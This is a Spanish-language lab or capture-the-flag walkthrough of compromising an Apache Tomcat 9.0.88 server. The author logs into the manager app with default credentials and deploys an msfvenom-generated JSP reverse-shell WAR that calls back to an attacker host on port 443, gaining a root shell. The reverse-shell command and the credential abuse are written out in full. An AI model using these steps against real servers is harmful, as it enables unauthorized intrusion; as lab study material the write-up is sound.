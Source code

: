 
![image](https://github.com/user-attachments/assets/d0eee424-55c4-47af-8a46-cb9500efbb77)

nmap: 8080

---
en la pagina: 172.17.0.2:8080 hay una  versión del de tomcat: # Apache Tomcat/9.0.88
como exploit a esa versión no encontré mucho, en la pagina hay un "manager apps"

![image](https://github.com/user-attachments/assets/8489fc06-5080-43b6-803b-d0aaef574de0)


en: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
buscamos las credenciales por default para poder entrar al "manager app"
intentamos con las credenciales

![image](https://github.com/user-attachments/assets/6f3bfbf0-bb14-48c1-bb7a-71101acce2f4)

> las credenciales: tomcat/s3cr3t

entramos al "manager app" con esas credenciales

encontramos la parte de WAR file to deploy, donde se suben archivos .war

![image](https://github.com/user-attachments/assets/38e15592-832a-4c5f-996e-0bcdcf2e1a19)

para poder tener una conexión RCE utilizamos: msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war

lo lanzamos y nos crea un:   revshell.war

![image](https://github.com/user-attachments/assets/973132b0-0212-4472-9b61-d4f0c763c3eb)


lo subimos en archivos "WAR" y luego lo cargamos

al subirlo aparece aquí: llamado /revshell
![[subido.png]]

>colocamos el terminal en escucha y presionamos el archivo y estamos dentro ya como root!
![[root.png]]

hacemos un "stty"

       - script /dev/null -c bash
       - stty raw -echo; fg
       - reset xterm
       - export SHELL=bash && export TERM=xterm
       - stty rows numero colums numero 

y quedara así:
![[root sup.png]]
